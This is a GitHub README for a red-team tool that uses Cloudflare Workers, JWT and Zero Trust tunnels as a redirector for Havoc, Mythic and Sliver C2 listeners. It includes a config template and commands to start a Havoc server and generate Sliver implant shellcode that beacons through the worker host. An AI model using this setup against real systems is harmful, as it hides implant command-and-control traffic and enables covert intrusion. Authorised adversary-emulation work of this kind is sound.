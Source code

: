 # Cloudflare-Redirector

Inspired by [Alfie Champion](https://twitter.com/ajpc500) [article](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/), I decided to publish my own version of a Cloudflare Redirector adding the Zero Trust aspect.

![good old diagram](assets/cf-redirector-v2.png)

Note: The idea or "workflow" can be scaled and can also integrate more feature (Ex: Cloudflare WAF, KV store, R2 buckets, Queues, etc.). I may publish the more complete version in the future.

## V2 update (April 2024)

- Since my documentation was not that good, I made a little cli tool to facilate usage.
- Base on a configuration file to make it easier to apply your config.
- [timesafecheck](https://developers.cloudflare.com/workers/examples/protect-against-timing-attacks).
- Generate multiple router URLs with the `wrangler --env` feature (worker1, worker2, etc.).
- JWT (auth worker) with [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
  - JWT setup is overkill for this project, but wanted to try it out and learn new things.
- Support multiple C2 listeners.
- I made a branch `v1` with the old version.

note: Redirector worker and Auth worker does not have any public URL (only accessbile with worker service binding).

Todo:

- ~~add custom domain routing.~~
- ? (suggestions are welcome)

## Things you will need

- [wrangler cli](https://developers.cloudflare.com/workers/wrangler/). We will use `wrangler cli` to deploy.
  - To make sure wrangler cli is setup correctly: `wrangler whoami`
- A running C2 framework. Ex: [Havoc](https://github.com/HavocFramework/Havoc).
- Cloudflare "regular" account. (free)
  - Having a least one domain managed in your Cloudflare account.
- Initiate your Cloudflare Zero Trust account through your Cloudflare "regular" account. (will ask for a credit card but free for the first 50 users). See screenshot `1.jpg` in assets folder.
- Install Cloudflare tunnel ([cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/)) in your C2 server.

## Usage

![usage](assets/usagecli.png)

## Setup

![accountid_and_subdomain](assets/14.jpg)

```bash
# clone the repo and cd into it

# copy the configuration file
cp config_demo.json config.json
# modify the config.json

chmod +x cli.sh
# run the cli with -f when its your first time deploying
./cli.sh -f
# you should see the workers in your Cloudflare dashboard
```

Config file example:

```json
{
  "cf_account_id": "<account_id>",
  "cf_account_dev_subdomain": "<subdomain>.workers.dev",
  "secrets": {
    "service_cf_id": "<service_cf_id>",
    "service_cf_secret": "<service_cf_secret>",
    "jwt_secret": "your_secret_key",
    "router_header": "X-Header",
    "router_header_secret": "secret_value",
    "auth_header": "X-Header-Gate",
    "auth_header_secret": "secret_value_auth_gate",
    "id_header": "X-ID"
  },
  "router_route": [
    {
      "id": 1,
      "name": "worker1",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker1.example.com"
    },
    {
      "id": 2,
      "name": "worker2",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker2.example.com"
    },
    {
      "id": 3,
      "name": "worker3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker3.example.com"
    }
  ],
  "listeners": [
    {
      "id": 1,
      "name": "havoc",
      "address": "https://havoc-listener.example.com/",
      "is_default": "false"
    },
    {
      "id": 2,
      "name": "mythic",
      "address": "https://mythic-listener.example.com/",
      "is_default": "true"
    },
    {
      "id": 3,
      "name": "sliver",
      "address": "https://sliver-listener.example.com/",
      "is_default": "false"
    }
  ]
}
```

### Custom Domains

Using custom domain is optional (`router_route` default configuration doesnt need to be change). You can use the default `workers.dev` subdomain, which is set by the `cf_account_dev_subdomain` key in the config file. Just make sure to set `use_dev_subdomain` to true. So yes, if you set `use_dev_subdomain` to true, you don't need to do care about the `pattern` config.

If you want to use custom domain, here is an example:

```json
...
  "router_route": [
    {
      "id": 1,
      "name": "worker1",
      "use_custom_domain": "true",
      "use_dev_subdomain": "false",
      "pattern": "worker1.mycustomdomain.com"
    },
    {
      "id": 2,
      "name": "worker2",
      "use_custom_domain": "true",
      "use_dev_subdomain": "true",
      "pattern": "worker2.anothercustomdomain.com"
    },
    {
      "id": 3,
      "name": "worker3",
      "use_custom_domain": "false",
      "use_dev_subdomain": "true",
      "pattern": "worker3.example.com"
    }
  ],
...
```

This configuration will create 4 URLs (Hosts for your C2 profile):

- `worker1.mycustomdomain.com`
- `worker2.anothercustomdomain.com`
- `worker2.<subdomain>.workers.dev`
- `worker3.<subdomain>.workers.dev`

note: domain(s) must be in the same Cloudflare account.

## Not sure about the Zero Trust part ?

First time setting up a cloudflare tunnel? Take a look at this [article](https://www.redteaming.org/cftunnels.html) provide by [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt).

I also took some screenshots that are in the assets folder, but in summary:

1. Access zero trust section

2. Create new service-auth token

3. Create new tunnel (and setting up on your C2 server)

4. **Create application (self-hosted) rules to protect your listener** (in the screenshots I'm using github authentication, but you can use the default "one-time pin". BTW, we only care about the Service-Auth policy since only our redirector need to visit listener url).

## After deployment

- Start C2 server with your modified profile.

```bash
# modify profiles/havoc/demo-profile.yaotl
./havoc server --profile profiles/cf-profile.yaotl -v

# modify ~/.sliver/configs/http-c2.json (add header)
profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder. You can also use the `wrangler tail` command.

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [Toby Schneider](https://github.com/tsndr) for [cloudflare-worker-jwt](https://github.com/tsndr/cloudflare-worker-jwt).
- [Cyb3rC3lt](https://twitter.com/Cyb3rC3lt) for the [article](https://www.redteaming.org/cftunnels.html) on Cloudflare tunnel.
- [Yack](https://yack.one).
